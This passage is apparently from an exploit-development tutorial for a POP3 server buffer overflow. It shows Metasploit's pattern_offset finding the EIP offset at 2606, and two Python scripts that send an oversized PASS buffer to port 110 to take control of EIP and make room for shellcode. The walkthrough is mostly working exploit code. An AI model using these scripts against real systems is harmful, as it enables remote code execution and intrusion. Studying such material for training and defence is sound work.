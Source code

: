 In the debugger, we could see EIP register has been overwritten with the hex bytes 39694438. 
Let's calculate the offset using pattren_offset.rb tool in Kali:

```
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438
[*] Exact match at offset 2606
```
The offset 2606 means that those bytes (out of the 2700 paylod) left us 4 bytes to overwrite the EIP address.
Let’s translate this to a new modified buffer string in our exploit:

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload = "A" * 2606
payload += "B" * 4
payload += "C" * (2700 - 2606 - 4)

print "\nSending evil buffer..."
s.connect(('127.0.0.1',110))
s.recv(1024)
s.send('USER username' + '\r\n')
s.recv(1024)
s.send('PASS ' + payload + '\r\n')
print "\nDone!."
``` 

Now if we watch the EIP register, we could see that The EIP register is cleanly
overwritten by B's (\x42).

## Add space for shellcode

We can see that ESP register points directly to the beginning of our buffer of C's, but the  shellcode requires ~350-400 bytes of space and the 90 bytes of our space won't be enough.

Let's increse the total buffer from 2700 to 3500 and make larger buffer space for our shellcode:

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload = "A" * 2606
payload += "B" * 4
payload += "C" * (3500 - 2606 - 4)

print "\nSending evil buffer..."
s.connect(('127.0.0.1',110))
s.recv(1024)
s.send('USER username' + '\r\n')
s.recv(1024)
s.send('PASS ' + payload + '\r\n')
print "\nDone!."
```
